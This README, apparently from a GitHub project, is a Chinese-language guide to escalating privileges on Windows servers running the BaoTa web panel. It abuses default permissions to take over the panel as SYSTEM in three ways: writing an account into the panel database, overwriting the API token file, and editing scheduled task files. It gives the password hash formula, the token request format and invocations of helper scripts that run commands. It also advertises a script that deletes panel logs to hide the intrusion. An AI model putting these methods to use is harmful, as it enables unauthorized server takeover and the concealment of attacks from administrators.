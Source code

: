 # 宝塔面板Windows提权方法

本项目整理一些宝塔特性，可以在无漏洞的情况下利用这些特性来增加提权的机会。


Table of Contents
=================

   * [宝塔面板Windows提权方法](#宝塔面板windows提权方法)
      * [写数据库提权](#写数据库提权)
      * [API提权](#api提权)
      * [计划任务提权](#计划任务提权)
   * [自动化测试](#自动化测试)



## 写数据库提权

宝塔面板在2008安装的时候默认www用户是可以对宝塔面板的数据库有完全控制权限的：

```bash
powershell -Command "get-acl C:\BtSoft\panel\data\default.db | format-list"
```

![](imgs/01.png)

对于这种情况可以直接往数据库写一个面板的账号直接获取到面板权限，而在2016安装默认是User权限可读不可写

![](imgs/02.png)

这种情况可以从里面读取一些敏感信息，比如mysql的root密码，而一般这个配置的不会只有这个文件可读，可以使用其他方法。



盐： `[A-Za-z0-9]{12}`

密码： `md5(md5(md5(password) + '_bt.cn') + salt)`

可以直接使用`bt_panel_script.py`，脚本会自动新建一个账号。



## API提权

宝塔面板支持API操作的，token在`C:\BtSoft\panel\config\api.json`，用这个方法提权还可以无视入口校验，比如有一个**未授权访问的redis是system权限**，就可以直接往这个文件覆盖token直接接管面板，或是利用FileZilla(windows面板默认ftp软件就是FileZilla + 空密码)新建一个C盘权限的账号，也可以去修改那个文件来提权。



API Token: `md5(string)`

api.json
```json
{"open": true, "token": "API Token", "limit_addr": ["你的IP"]}
```

请求时加上(`multipart/form-data`)：

```
request_token = md5(timestamp + token)
request_time = timestamp
```

可以直接使用`bt_panel_api.py`，脚本会自动使用计划任务运行命令，如果面板原本就有配置好API了，并且IP限制127.0.0.1，那么就可以直接端口转发出来直接用脚本提权。





## 计划任务提权

基本上场景同API提权，可以去修改计划任务文件(比如网站备份)，默认是在凌晨1：30执行，权限也是system。



路径： `C:/BtSoft/cron/`

有些面板API会无法登陆，就只能利用计划任务来提权了，缺点是路径不固定，且执行时间也不固定。



# 自动化测试

```bash
python3 .\bt_panel_script.py
```

使用此脚本可以全自动获取宝塔相关信息，python可以直接用宝塔的，不用担心没环境。

![](imgs/03.png)

```bash
python3 .\bt_panel_api.py -g
```

这个脚本可以生成api示例，把生成的json替换到指定文件后就能提权。

![](imgs/04.png)

```bash
python3 .\bt_panel_api.py -u "http://192.168.101.5:8888/" -t "085bd64a698cf601ae472425656b2346" -c whoami
```

![](imgs/05.png)

```bash
python3 .\bt_panel_log_delete.py
```

这个脚本可以自动清理面板日志
